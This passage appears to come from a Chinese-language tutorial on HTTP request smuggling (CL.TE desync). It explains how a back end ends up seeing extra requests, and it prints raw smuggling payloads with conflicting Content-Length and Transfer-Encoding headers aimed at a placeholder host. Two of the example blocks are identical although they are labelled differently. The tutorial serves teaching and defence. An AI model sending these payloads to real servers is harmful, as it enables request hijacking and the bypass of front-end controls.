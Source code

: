 如果您发送了一个包含主体的请求，连接上的下一个请求将被附加到被发送的请求的主体，这通常会产生副作用，即根据明显的Content-Length截断最终请求，此时后端实际上看到了三个请求，其中第三个"请求"只是一系列剩余的字节。

前端(CL模式)：

```c
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked
0
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25
x=GET / HTTP/1.1
Host: vulnerable-website.com
```

后端(TE模式)：

```c
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked
0
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25
x=GET / HTTP/1.1
Host: vulnerable-website.com
```

如果我们简单的构造一下，通过一次发送两个请求，那么连接上的任何后续请求都将保持不变：

前端(CL模式)：

```c
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```
